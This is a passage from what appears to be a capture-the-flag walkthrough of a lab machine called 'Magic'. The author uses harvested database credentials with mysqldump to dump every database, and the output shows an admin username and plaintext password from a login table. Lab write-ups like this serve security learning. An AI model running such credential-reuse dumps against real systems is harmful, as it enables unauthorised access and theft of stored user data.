 We will now attempt to use `mysqldump` with theese. `Mysql` is not installed on the box that is why we are using `mysqldump`

```bash
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
```

```sql
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: 
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
```